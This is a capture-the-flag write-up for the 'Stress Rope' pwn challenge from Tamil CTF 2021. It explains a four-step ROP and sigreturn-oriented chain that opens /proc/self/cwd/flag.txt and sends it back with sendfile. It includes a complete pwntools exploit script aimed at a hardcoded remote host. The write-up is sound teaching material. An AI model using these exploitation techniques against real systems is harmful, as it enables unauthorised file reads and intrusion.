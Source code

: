 ## **Stress Rope**

was a pwn challenge from Tamil CTF 2021.

it is a small echo server write in assembly, very small, with no libc, very few gadgets..

there are may ways to exploit it, let's look at the reverse

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/reverse.png)

so my exploitation goes like this:

**1st step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step1.png)

we return to 0x40008d address, at the sub rsi,8 , to read again another bloc a bit before on stack, to put the filename of the file we want to open there (rsi will point on it). we wait for the next send so...

**2nd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step2.png)

we send the filename that will be written to rsi, we adjust the packet size to 257 , the syscall number of openfileat, which act as open, but the filename is in rsi and not rdi, which is simpler to setup for us. If the filename is absolute, rdi will just be ignored..perfect for us.

We use a little trick, /proc/self/cwd/flag.txt is used as a path, which means the current directory of the actual process..as we don't know the name of the remote directory..

we call the syscall gadget 0x40009b (with rsi, and rax = 257)

then we call one time 0x4000a3 so send back to the program a 8 bytes blocs, to make stop between read.. as the buffering can otherway add small packet sending into a bigger one.

then we return again to read for step3

**3rd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step3.png)

ok know that we have open the filename for the flag, we are going to put a sigrop frame on stack for the last step.

We don't know the fd number returner by openfileat, but as only stdin, stdout, stderr, a socket should be open remotely..it's probably a small numer, 4, 5 or 6 ....we can guess it quickly..

the frame we prepared looks like this

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/sigrop.png)

it is a call to sendfile syscall, which take a input fd, and output fd, and a length basically.

It will transfer data frome the opened fd from openfileat (the flag), to stdout (fd = 1)

and we will receive it...

**4th step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step4.png)

last step, but not least...

we send a payload of size 15, so setup rax=15 for sigreturn syscall..

and so we execute the sendfile syscall, that will send us back our flag...



<u>here is the exploit code:</u>

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'debug'

exe = ELF('./echo-echo')

host, port = "3.97.113.25", "9002"

p = remote(host,port)

# sendfile sigrop frame ; send us back the opened file via stdout
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 40		# sendfile syscall number
frame.rdi = 1		# stdout
frame.rsi = 5		# remote fd for file opened (found after some tries)
frame.rdx = 0
frame.r10 = 512		# arbitrary size
frame.rsp = 0x400800	# arbitrary stack address (will crash after output anyway)
frame.rip = 0x40009b    # syscall gadget

frame = bytes(frame)
frame = frame[0:0xd0]	# we cut down the size of the frame, because we don't care of the end (empty)

gadget1 = 0x4000a3

# first return back to read, but at sub rsi,8 to write before our buffer the filename
payload = p64(0xdeadbeef)+p64(0x40008d)
payload = payload.ljust(0x12c,'\x00')
p.send(payload)

# send the filename to open and continue ROPPING, sometimes output 8 bytes, to stop between read & write
payload2 = '/proc/self/cwd/flag.txt'.ljust(24,'\x00')+p64(0x40009b)+p64(0x4000a3)+p64(0x400085)
# set the length of this payload to 257, to set eax=257 for next part (openfileat syscall)
payload2 = payload2.ljust(257,b'\x00')
p.send(payload2)

print(p.recv(8))

# put the frame for the sigrop on stack
payload3 = p64(0xdeadbeef)+p64(0x400085)+p64(0xdeadbeef)+frame
payload3 = payload3.ljust(0x12c,'\x00')
p.send(payload3)

# set this payload length to 15, to set eax=15 for sigreturn syscall
payload4 = p64(0xdeadbeef)+p64(0x40009b)[0:7]
payload4 = payload4.ljust(15,b'\x00')
p.send(payload4)

# we receive back flag now send by the sendfile sigrop
p.interactive()
```

*nobodyisnobody still pwning things*